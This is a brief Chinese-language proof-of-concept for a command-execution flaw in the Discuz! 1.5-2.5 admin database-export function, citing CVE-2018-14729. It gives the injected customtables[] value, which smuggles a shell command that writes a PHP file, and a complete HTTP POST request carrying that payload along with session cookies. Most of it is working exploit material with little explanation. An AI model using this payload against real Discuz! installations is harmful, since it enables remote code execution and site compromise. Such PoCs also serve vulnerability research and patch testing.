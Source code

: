 ## Affected Version  

 **Discuz! 1.5-2.5**

## POC

需要登入后台。

![1](Discuz! 1.5-2.5 命令执行漏洞\1.png)
![2](Discuz! 1.5-2.5 命令执行漏洞\2.png)

修改的参数

参数`customtables[]`

    customtables%5B%5D=pre_common_admincp_cmenu">aaa; echo '<?php phpinfo(); ?>' > phpinfo.php #

数据包

    POST /discuz25/admin.php?action=db&operation=export&setup=1 HTTP/1.1
    Host: localhost
    Content-Length: 252
    Cache-Control: max-age=0
    Origin: http://localhost
    Upgrade-Insecure-Requests: 1
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
    Referer: http://localhost/discuz25/admin.php?action=db&operation=export
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Cookie: _ga=GA1.1.994534325.1530166127; PHPSESSID=ffe1069f199ac7656303b61e42db4f5d; ECSCP_ID=e685eee56d5dc4a732b0b1ecb8cbac6becac2355; ECS_ID=b9e7920dfb02c84b5298d0022c64a8fc393376d7; Phpstorm-326452dc=558db1bc-7f7b-4670-8d36-9cef7d8c1b9d; ECS[visit_times]=8; 3Od_visitedfid=2; 3Od_auth=03d3WSoYgxBuC4Yg3mqq4yEVgLBDsrbNx%2F8rIcURpRI5sDFtpC1S9F%2BYa6BViyFggZYM7bac7evIAZJdgLOJ7Q; 3Od_sid=mm4AMQ; QoOR_2132_saltkey=V6AnRzmw; QoOR_2132_lastvisit=1545183584; QoOR_2132_widthauto=-1; R94S_2132_saltkey=1hs56u42; R94S_2132_lastvisit=1545220172; R94S_2132_promotion=1; R94S_2132_auth=75696lGYV1FEogy00DO%2FmyhWbxk8OljAPZAeSvxfgwvvLbMruyS2sfVSYZUG4wr3GYw5L66%2FfppgB9gzioss; R94S_2132_creditnotice=0D0D2D0D0D0D0D0D0D1; R94S_2132_creditbase=0D0D1D0D0D0D0D0D0; R94S_2132_creditrule=%E6%AF%8F%E5%A4%A9%E7%99%BB%E5%BD%95; R94S_2132_ulastactivity=e0adnKO8pY2qUt5XPBdVc3jbgQxCrCiAkAFzNuN%2Fu9wTbgHc7XLK; R94S_2132_sid=9H4E8j; R94S_2132_lastact=1545224711%09admin.php%09; QoOR_2132_sid=BdGwL9; QoOR_2132_sendmail=1; QoOR_2132_ulastactivity=9cf4%2B3XCcfF1uHee0LOFG0wa6FFvCc1Rp96Kg%2BkgOi%2FL7ovDRKru; QoOR_2132_auth=32d7SwpKowF2VAeqfqe0dWo1FjINHjZA9zt%2ByF8A7LOif0pFSaHnEznijiCaqgsQD8NSBtEiwEDL4Wrnx1gz; QoOR_2132_checkpatch=1; QoOR_2132_checkupgrade=1; QoOR_2132_lastact=1545224853%09admin.php%09
    Connection: close
    
    formhash=0d2eaac0&scrolltop=&anchor=&type=custom&customtables%5B%5D=pre_common_admincp_cmenu">aaa; echo '<?php phpinfo(); ?>' > phpinfo.php #&method=shell&extendins=0&sqlcompat=&usehex=1&usezip=0&filename=181219_u0CC19kJ&exportsubmit=%E6%8F%90%E4%BA%A4




## References
https://paper.seebug.org/763/

https://github.com/FoolMitAh/CVE-2018-14729




